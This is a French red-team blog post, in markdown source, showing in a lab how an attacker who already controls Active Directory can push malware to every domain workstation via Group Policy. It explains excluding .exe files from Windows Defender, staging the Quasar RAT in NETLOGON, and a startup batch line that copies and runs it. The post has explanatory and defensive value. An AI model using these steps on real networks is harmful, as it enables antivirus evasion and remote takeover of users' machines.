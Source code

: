 ```yaml
---
published: true
layout: post
title: "Une GPO pour les gouverner tous : Compromettre n'importe quel poste de l'Active Directory via une GPO"
description: "Cet article décrit comment compromettre un poste de l'Active Directory via une GPO."
lang: fr_FR
category: redteam,malware,active directory,gpo
---
```

![Compromission d'un poste de l'Active Directory via une GPO](/assets/images/2021-03-19-Une-GPO-pour-les-gouverner-tous/illustration.PNG)

L'objectif principal d'Active Directory est de fournir des services centralisés d'identification et d'authentification à un réseau d'ordinateurs utilisant le système Windows, macOS ou encore Linux. Il permet également l'attribution et **l'application de stratégies de groupes** ainsi que **l'installation de mises à jour critiques** par les administrateurs.
L'Active Directory est donc le nerf de la guerre du pentester Red Team. En cas de compromissions de ce dernier, la partie est gagnée. L'attaquant peut alors rebondir sur les différents postes du domaine compromis.

## Exploitation de l'Active Directory pour installer un malware via un GPO
Dans cet article, je pars du postulat que **l'Active Directory est déjà compromis** et je m'intéresse donc à l'utilisation des stratégies de groupe.
L'idée est ici de déployer un malware sur tous les systèmes de l'Active Directory (ou un seul pour cibler un utilisateur en particulier). Bon mon lab est assez petit, car il ne se compose que d'un **Windows Server 2019 (Contrôleur de domaine)** et d'un **Windows 10** tous deux dans le domaine **mondomaine.local**.

### Création de la GPO malveillante
La première étape est de créer la GPO malveillante que je nommerai...*Installation Malware* qui est effective sur le domaine *mondomaine.local* et s'applique à **tous les utilisateurs authentifiés** :

[![Création de la GPO malveillante](/assets/images/2021-03-19-Une-GPO-pour-les-gouverner-tous/creation_gpo.PNG)](/assets/images/2021-03-19-Une-GPO-pour-les-gouverner-tous/creation_gpo.PNG)

### Exclusion de la détection du malware
Une des politiques de sécurité appliquée sera d'exclure la détection des fichiers ayant pour extension *.exe*.

Il faut donc dans la partie *Composants Windows* -> *Antivirus Windows Defender* -> *Exclusions* -> *Exclusion d'extensions*, créer une règle d'exclusion sur le *.exe*.

[![Exclusion de la détection des fichiers .exe](/assets/images/2021-03-19-Une-GPO-pour-les-gouverner-tous/creation_exclusion.PNG)](/assets/images/2021-03-19-Une-GPO-pour-les-gouverner-tous/creation_exclusion.PNG)

Tout exécutable **normalement détecté par Windows Defender** pourra ainsi être **exécuté sans être bloqué** par Windows Defender.

### Création du malware exécuté sur le poste de la cible
Pour l'exemple, j'utiliserai l'outil d'administration à distance (*Remote Administration Tool* ou *RAT*) [Quasar](https://github.com/quasar/Quasar) qui est libre et open source. Le *malware.exe* doit être placé dans le répertoire *C:\Windows\SYSVOL\sysvol\mondomaine.local\scripts*. Ce dossier est un partage administratif qui sera disponible sur le poste des utilisateurs du domaine à l'emplacement suivant `\\mondomaine.local\NETLOGON\\malware.exe`
Le malware aurait également pu être une charge *CobaltStrike*, un *reverse shell* ou tout autre exécutable / script comme un ransomware.

### Création du script de téléchargement du malware
Un script d'exécution doit être créé pour télécharger le logiciel malveillant. Le contenu du script à exécuter au démarrage du poste est le suivant :

```bat
copy \\mondomaine.local\NETLOGON\\malware.exe C:\Windows\malware.exe && C:\Windows\malware.exe
```
Le script doit également être placé dans le partage administratif :

[![Placement des logiciels malveillants dans SYSVOL](/assets/images/2021-03-19-Une-GPO-pour-les-gouverner-tous/sysvol.PNG)](/assets/images/2021-03-19-Une-GPO-pour-les-gouverner-tous/sysvol.PNG)

### Création de la GPO qui exécutera le script

La GPO qui exécutera le script au démarrage de l'ordinateur doit maintenant être créée. Pour ce faire, la catégorie *Paramètre Windows* -> *Scripts (démarrage/arrêt)* va être utilisée. Il faut alors spécifier le script en question qui sera démarré :

[![Création de la GPO qui exécute le script de téléchargement du malware](/assets/images/2021-03-19-Une-GPO-pour-les-gouverner-tous/creation_gpo_execution_malware.PNG)](/assets/images/2021-03-19-Une-GPO-pour-les-gouverner-tous/creation_gpo_execution_malware.PNG)

Une fois le redémarrage de l'ordinateur, le script est alors exécuté qui lui même téléchargera le logiciel malveillant et l'exécutera. Du côté de l'attaquant, la victime est alors visible :

[![Liste des PC compromis](/assets/images/2021-03-19-Une-GPO-pour-les-gouverner-tous/liste_pc_compromis.PNG)](/assets/images/2021-03-19-Une-GPO-pour-les-gouverner-tous/liste_pc_compromis.PNG)

## Conclusion
Cet exemple d'exploitation prouve que le contrôleur de domaine est vraiment une pièce maîtresse du réseau d'entreprise et qu'il doit être protégé au maximum. Il y a plein d'autres scénarii imaginables.

De nombreuses recommandations sont disponibles pour sécuriser un Active Directory et cet exemple est trop vaste pour lister une recommandation précise.
L'ANSSI a publié un [guide](https://www.ssi.gouv.fr/guide/recommandations-de-securite-relatives-a-active-directory/) qui a pour objectif de fournir des recommandations et des procédures permettant la sécurisation d’un annuaire Active Directory.